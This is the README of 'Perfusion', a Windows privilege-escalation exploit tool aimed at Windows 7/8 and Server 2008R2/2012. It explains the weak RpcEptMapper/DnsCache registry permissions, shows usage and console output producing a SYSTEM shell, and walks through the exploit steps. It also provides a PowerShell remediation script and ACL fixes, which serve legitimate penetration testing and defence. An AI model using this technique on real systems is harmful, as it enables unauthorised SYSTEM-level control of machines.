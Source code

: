 # Perfusion

On __Windows 7__, __Windows Server 2008R2__, __Windows 8__, and __Windows Server 2012__, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the ___Windows Performance Counters___ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

This tool is intended to help security consultants during penetration tests. This software is provided as is, and I will probably not provide any support. Though, I tested it thoroughly on three different virtual machines so there should not be any significant issue.

For more information: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="demo.gif">
</p>

## Known issues

:warning: __READ THIS BEFORE USING THIS TOOL__ :warning:

During the development phase of this tool, I observed __two different behaviors__:

1. The DLL is loaded __directly by the main process__ of the WMI service as `NT AUTHORITY\SYSTEM`, in this case the exploit works perfectly fine.
2. The DLL is loaded __by a subprocess__ of the WMI service that runs as `NT AUTHORITY\LOCAL SERVICE`. In this case, the service loads the DLL __while impersonating the client__. It turns out a privilege escalation is still possible on Windows 7 (because of another vulnerability) but the implementation cost was not worth the effort.

I am not able to explain this difference because my _trigger_ code was always the same. Anyway, in either case, __let the exploit do its job__ so that it can clean everything up when it's done. If the exploit fails, there is still a chance it will work a few minutes or hours later though.

:heavy_check_mark: Here is what you should see when the exploit works:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Here is what you should see when the exploit fails:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

This solution is composed of two projects that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions:

1. Open the Solution with Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

You can check the help message using the `-h` option.

```console
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.1
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -h        Help - That's me :)
```

## Remediation / Patch

The following versions of Windows are vulnerable:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

As far as I know, this vulnerability will not be fixed by Microsoft, for some reason. The best solution is still to upgrade to Windows 10 / Server 2019 but if it is not a short-term option, you can still patch this issue yourself by removing the `CreateSubKey` permission for both `NT AUTHORITY\Authenticated Users` and `BUILTIN\Users` on the following registry keys:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

I created a patch for this vulnerability in the form of a PowerShell script: [RegistryPatch.ps1](RegistryPatch.ps1). This script removes the `CreateSubKey` right on the two above-mentioned registry keys for the following identities: `NT AUTHORITY\INTERACTIVE`, `BUILTIN\Users` and/or `BUILTIN\Authenticated Users`.

- __Check if a machine is vulnerable:__ (Windows Server 2012 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Apply the patch:__ (Windows Server 2008 R2 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```


## How does this exploit work?

Below are the exploit steps that are implemented in this tool:

1. A Process is created in the background in a suspended state (using the specified command line).
2. The embedded payload DLL is written to the current user's `Temp` folder.
3. A `Performance` key is created under `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` and is populated with the appropriate values, including the full path of the DLL that was created at step 2.
4. The WMI class `Win32_Perf` is created and invoked to trigger the collection of _Windows Performance Counters_.
5. The DLL is loaded by the WMI service either as `NT AUTHORITY\SYSTEM` or `NT AUTHORITY\LOCAL SERVICE`.
6. If the DLL is loaded by `NT AUTHORITY\SYSTEM`, its Token is duplicated and is applied to the Process that was initially created by the user at step 1.
7. Everything is cleaned up and the main Thread of the suspended Process is resumed.

